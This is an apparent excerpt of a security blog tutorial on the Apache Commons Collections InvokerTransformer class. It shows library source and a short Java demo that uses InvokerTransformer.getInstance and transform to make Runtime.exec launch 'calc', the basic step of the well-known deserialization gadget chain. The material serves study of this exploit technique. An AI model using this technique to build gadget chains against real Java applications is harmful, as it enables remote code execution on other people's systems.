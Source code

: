 ```java
        throw new IllegalArgumentException("The parameter types must match the arguments");
    }
    if (paramTypes == null || paramTypes.length == 0) {
        return new InvokerTransformer(methodName);
    } else {
        paramTypes = (Class[]) paramTypes.clone();
        args = (Object[]) args.clone();
        return new InvokerTransformer(methodName, paramTypes, args);
    }
}
```
{: .nolineno file="org.apache.commons.collections.functors.InvokerTransformer"}



We can use the `getInstance(String methodName, Class[] paramTypes, Object[] args)` method to create an instance of the `InvokerTransformer` class that calls the `exec()` method. Then, by using the `transform(Object input)` method, we can pass an object of the `Runtime` class to invoke the `exec()` method.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});
            exec.transform(runtime);

        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}


